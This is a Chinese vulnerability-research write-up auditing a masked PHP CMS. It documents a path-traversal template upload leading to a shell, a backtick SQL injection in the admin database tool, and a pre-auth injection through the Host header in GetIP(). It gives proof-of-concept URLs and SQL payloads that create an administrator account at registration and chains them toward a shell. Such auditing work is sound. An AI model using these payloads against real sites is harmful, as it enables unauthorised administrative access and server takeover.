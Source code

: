 本文内容仅限学习所用，请不要利用文中消息进行危害性测试。为保护此源码使用者的安全，本文中的源码系统名将做打码处理。

初学者学习中的小小收获，各位大佬轻喷。

1 整体审计
======

拿到源码，先做一次整体审计，看一看整个代码的处理逻辑、是否有过滤控制器、是否有权限校验控制器等。

先看目录：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-bf3ac582950a81d88a060b9b98f2ad9ac0ffe098.png)

很明显有控制器，是模仿MVC形式的CMS。

1.1 权限控制
--------

一共有两个入口index.php admin/index.php （感觉这样写的CMS很常见）。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-b33761aaa7afe71be635219555237963578a4ba3.png)

查看两个文件，发现它们没有什么不同之处，定义了ROOT，然后进入APP:run()。除了admin文件夹下的index文件中定义了一个常量ADMINDIR。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-c8168e7b7be8c68193bf9dcb868633708a6fd907.png)

跟进APP:run()，这里是整个CMS的核心。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-d93e025448cb6134c2b6433c8846a0d0a218bbff.png)

很常见的路径转方法（伪静态？），如/index.php/\[controller\]/\[action\]/\[arag1\]/\[arg2\]。但由于其控制器分别在controllers和admin/controllers下，而访问控制脚本的函数使用的是不可控变量，所以不能通过普通控制器入口访问管理员的控制器。

这里还存在一个问题：它引入的时候貌似没有校验权限，是否普通用户可以越权调用admin的controller？

后面看了一下，其中一个类的构造函数处会进行鉴权。那就是看哪些控制器的构造函数没有鉴权 就能造成绕过。总而言之鉴权的地方不是统一的。

又看了一眼 发现是控制器的父类。那就是哪个父类不是这个（这样写的话可能性就会小很多）。后面看了一眼这个类包括了大部分后台HTML元素，那理论上所有控制器（除了API控制器）都会走这个类。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-ca151b64aad9d02fe0d550cc157982439ec29842.png)  
后面又发现，SAdmin虽然会检测session，但在session无效的时候并不会拦截，而只是会在session有效的情况下给SAdmin-&gt;data赋值。也就是说，具体的权限校验还是要在函数中实现。这给越权提供了空间。

然后发现后面校验权限是按照类似“校验权限字符是否在权限字符串中”的途径。

通过CheckAccess、CheckAction实现（这两个校验过程相同）：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-154788dcb63f6e9d8d0e6981e57a3ca35c9b06db.png)

同时，admin的data只赋值一次：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-f20e0325750b0a3e5f159a01560ad94c9e0170f1.png)

除了改数据库之外没办法混淆鉴权了。（也就是说，如果存在注入，有造成后台管理员登陆的可能）

1.2 过滤控制
--------

进一步查看控制器文件夹，查看是否有负责整体过滤参数的控制器（SQL、XSS、文件上传等的过滤文件）。

这里的过滤文件为functions.globals.php。不过这里的过滤函数都不是主动调用的（有些CMS会包括此文件 然后此文件中会先一步处理所有参数，这里完全就是写了函数等待调用）

过滤函数这边先实体编码然后加斜杠，应该是绕不了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-142f7a76fde78fdfba5f65ee53ec98a0c568bcb1.png)

引用过滤函数的则是这三个，如果其他地方都是由此处获取请求参数，那就无法造成SQL注入。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-8acb6d3382a400645cd68ca629c6f5dd5bbe41fc.png)

当然，在HTTP交互中会被后端接受的参数远不止GET、POST和Cookie（这里是大多数CMS的误区，又不喜欢过滤其他头又喜欢用其他头）。如果其他的头也会在交互中被获取并且没有经过这三个函数，或者某处的GET、POST参数没有经过这些过滤，即可造成注入。

2 审计漏洞列表
========

2.1 后台文件上传（可shell）
------------------

目录穿越的后台模版文件上传造成的getshell  
完全没有过滤相对路径+需要造成的模版文件后缀白名单造成的getshell（本来这个目录穿越还有点意义，结果我发现它根本没有限制入口为根目录文件夹- -，白穿越了）

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-9529b92745144ddf3a67cb947ac3077320dac419.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-0d31602b884dcd17cb45d31ac01a76343126cc5c.png)

2.2 后台注入（很鸡肋）
-------------

后台数据库管理中的功能。由于被输入的参数使用反引号包裹，而此CMS的过滤函数本身不过滤反引号，所以造成注入。  
POC为http://localhost/admin/index.php/database/operate?dbaction=emptytable&amp;tablename=hong\_acat`+where+cat_id=2+and+sleep(2);--%20)# 注入形式如下，用#号作为注释符即可。实际上，全database.php都存在这个漏洞（只要带有\`$database`）

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-e274d942686a439152144693ef345f5558e2245c.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-14d6220ccd315aeb712302b0379a4a633e686635.png)

2.3 后台目录穿越
----------

大家都爱的没用垃圾洞，甚至不需要后台代码。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-8e7e94d0835b560e452610ffc71840ba78611e09.png)

3 柳暗花明的前台注入
===========

找了这么多后台的洞，总而言之还是没什么用的。毕竟对于小CMS而言我们都希望使用前台漏洞，高效快速还不用苦苦猜一个管理员口令。于是我开始找前台漏洞。越权我们之前已经看过了是越不了的，RCE没有条件，信息泄露也没有条件，上传在前台已经测试过了没有绕过可能。那么能找的高危漏洞只剩下注入一个了。

在第一节中我们已经找到了CMS的过滤函数并且确定了此过滤无法绕过。现在需要找到的就是那些没有被过滤函数保护且会涉及数据库查询的参数。

接下来则是无聊的看参数时间，由于此CMS没有统一过滤，可以直接在控制器的action函数中查看输入参数是否经过过滤函数。

3.1 代码分析
--------

终于，在注册的地方找到了一个不经过过滤函数的参数：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-6fa52670b4943b4da6085ed5c2a51503c3a84b84.png)

这个GetIP()是没有经过过滤函数的。虽然大多数CMS中这个IP是不可控的，但笔者属于不是很信邪的那一款。于是跟进GetIP函数：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-3f15ebc6c7fb19207f480ac9710ff4e8c2908491.png)

这里写成了：先去X-FORWARDED-FOR、CLIENT-IP或者getenv('REMOTE\_ADDR')（这个不可控是环境变量）取IP，如果这个IP不符合格式就返回gethostbyname($\_SERVER\['HTTP\_HOST'\])，否则是正则表达式过滤之后的IP。问题就在于gethostbyname()并不能取到过滤的作用，于是我们就能将任意字符插入查询参数中，造成注入。

造成注入的条件则是：  
1.存在X-FORWARDED-FOR或CLIENT-IP，且其值不为IP形式  
2.HOST置为payload

以此格式传入包，果然触发了数据库报错：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-514096e92cf2c5628b27235e4973da353619663e.png)

3.2 使用注入进入后台
------------

此查询语句的原貌是：

```php
"INSERT INTO " . TABLE_PREFIX . "user (groupid, activated, username, password, verifycode, joindate, joinip, lang, nickname, email) VALUES ($groupid, $activated, '$username', '".md5($password)."', '$verifycode', '".time()."', '".GetIP()."', $lang, '$nickname', '$email')"
```

这里的groupid就是鉴权的ID（用户组ID）。由于这里就是注册点，这个注入可以被改造成这个形式，从而在注册时另外创建一个管理员账号，以此进入后台：

```php
INSERT INTO ***_user (groupid, activated, username, password, verifycode, joindate, joinip, lang, nickname, email) VALUES (2, -1, '111111111', '593c9b4a9390551d53e5cacf28ebd638', '96fbTjrp', '1697167889', '', 1, '111111111', '222@222.22');INSERT INTO ***_session (sessionid, userid, ipaddress, useragent, created, admin) VALUES ('aaa','1','','','','1')#', 1, '111111111', '222@222.22')
```

后面插入的帐号即为管理员账号。则POC为：

```php
', 1, '123', '222@222.22'),(1, 1, '111111111', '593c9b4a9390551d53e5cacf28ebd638', '96fbTjrp', '1697167889', '', 1, '111111111', '222@222.22')#
```

这将额外添加一个用户名为111111111密码为111111111111的帐号。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-33a9ef5736398ab9cf1cd9fa16ff6e82bd186aa7.png)

使用此账密登陆，成功：

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/10/attach-8c225f9dfc8b8a852d88fe66f3d0d6fb89e9fb2d.png)

然后利用之前提到的后台文件上传漏洞，就能够getshell愉快玩耍啦~